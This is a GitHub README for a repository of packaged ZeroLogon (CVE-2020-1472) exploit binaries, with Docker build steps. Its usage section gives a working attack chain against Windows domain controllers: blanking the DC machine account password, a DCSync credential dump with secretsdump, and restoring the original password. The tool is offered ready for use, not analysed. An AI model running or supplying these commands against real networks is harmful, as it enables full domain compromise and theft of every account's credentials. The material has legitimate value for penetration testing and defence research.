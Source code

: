 # ZeroLogon - dirkjanm CVE-2020-1472 static binaries

### Description

This repository contains static standalone binaries for Windows and Linux (both
x64) of [dirkjanm's
CVE-2020-1472 POC](https://github.com/dirkjanm/CVE-2020-1472) Python scripts:
`cve-2020-1472-exploit.exe` and `restorepassword.exe`. All credit goes to Tom
Tervoort for the [original research](https://www.secura.com/blog/zero-logon)
and Dirk-jan Mollema for the Python scripts.

The build process is heavily based on work from [ropnop's
impacket_static_binaries](https://github.com/ropnop/impacket_static_binaries).
Windows and Linux binaries are built using
[PyInstaller](http://www.pyinstaller.org/), executed in [cdrx's docker
image](https://github.com/cdrx/docker-pyinstaller). The Linux binaries are
built in Ubuntu 12.04 running Glibc 2.15 and should thus be compatible with
any version of Glibc newer than 2.15.

The main motivation behind this work is to have tooling to restore the DC
machine account password from Windows operating systems.

### Build the binaries yourself

The binaries can be build directly from sources using the provided `Makefile`
after retrieving the `cdrx/pyinstaller-windows` / `cdrx/pyinstaller-linux`
docker images. The newly compiled binaries will be placed in the `tmp_build`
folder.

```
# If necessary, to refresh the impacket and CVE-2020-1472 repositories cloned in tmp_build
make clean

# Windows
docker pull cdrx/pyinstaller-windows
make windows

# Linux
docker pull cdrx/pyinstaller-linux
make linux
```

### Usage

```
# Sets an empty password for the targeted DC machine account.
cve-2020-1472-exploit_windows.exe "<DC_NETBIOS_NAME>" "<DC_IP>"

# DCSync using the DC machine account.
# Static version of secretsdump.py: https://github.com/ropnop/impacket_static_binaries
secretsdump_windows.exe -just-dc -no-pass "<DOMAIN>/<DC_MACHINE_ACCOUNT$>@<DC_IP>"

# Retrieves the original DC machine account password.
# A secretsdump.exe binary built after impacket's September 15th 2020 update should be used (as it will automatically dump the plaintext machine password hex encoded required for the restoration).
secretsdump_windows.exe -hashes ":<NTLM>" "<DOMAIN>/<Administrator | DA_USERNAME>@<DC_IP>"

# Restores the DC machine account's original password.
restorepassword_windows.exe -target-ip "<DC_IP>" -hexpass "<DC_MACHINE_ACCOUNT_HEX_PASSWORD>" "<DOMAIN>/<DC_HOSTNAME>@<DC_HOSTNAME>"
```
